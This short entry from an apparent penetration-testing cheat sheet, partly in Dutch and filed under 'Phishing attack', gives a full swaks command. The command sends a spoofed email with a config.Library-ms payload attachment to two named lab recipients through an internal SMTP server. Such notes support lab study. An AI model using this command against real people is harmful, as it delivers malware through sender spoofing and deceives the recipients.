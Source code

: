 # 27. Assembling the pieces — Entry 27

## Categorie

Phishing attack

## Commando

```
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.175.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

## Omschrijving

```
Using the swaks command to send out our payload. DO THIS IN THE SAME DIRECTORY AS WHERE THE ATTACH  FILE IS
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

